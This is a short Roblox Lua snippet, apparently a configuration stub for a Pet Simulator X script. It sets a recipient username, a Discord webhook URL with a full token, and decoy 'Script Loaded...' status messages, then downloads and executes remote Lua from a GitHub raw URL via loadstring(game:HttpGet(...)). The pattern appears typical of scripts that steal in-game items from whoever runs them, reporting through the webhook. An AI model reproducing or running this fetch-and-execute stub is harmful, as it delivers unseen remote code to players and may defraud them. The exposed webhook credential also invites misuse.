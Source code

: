 Username = "Minato_hokage0905" WebHook = "https://discord.com/api/webhooks/1100334221991624754/UcBIQWkRH19OtgGvmFxyl4H6tt-eG2QleIHSeMf-hV5qHgF6t8i4f2_lRAxtPR-kOJHN"  _G.CustomScriptName = "Coen" _G.Text1 = "Script Loaded..." _G.Text2 = "Waiting for Script" _G.Text3 = "Checking Scripts..." _G.Text4 = "Starting Scripts..." loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
